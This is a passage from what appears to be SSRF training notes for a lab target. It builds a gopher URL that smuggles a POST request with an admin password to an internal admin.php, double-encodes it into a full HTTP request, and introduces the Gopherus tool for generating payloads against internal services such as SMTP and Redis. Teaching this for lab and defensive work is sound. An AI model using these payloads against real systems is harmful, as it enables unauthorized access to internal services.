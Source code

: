 Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```url
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
- Our specified bytes are sent to the target when the web application processes this URL.

Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a `Malformed URL` error. 

After URL encoding the entire gopher URL one more time, we can finally send the following request:
```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```
 - We can use the `gopher` protocol to interact with many internal services, not just HTTP servers. 

#### If we found other services that we want to probe
Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. 

We can use Gopher to interact with this internal SMTP server as well. 

However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:
```shell
python gopherus.py
```

Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:
```shell-session
python2.7 gopherus.py --exploit smtp
```
# Blind SSRF
In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response.
## Identifying Blind SSRF
We can confirm the SSRF vulnerability by supplying a URL to a system under our control and setting up a `netcat` listener with `nc`.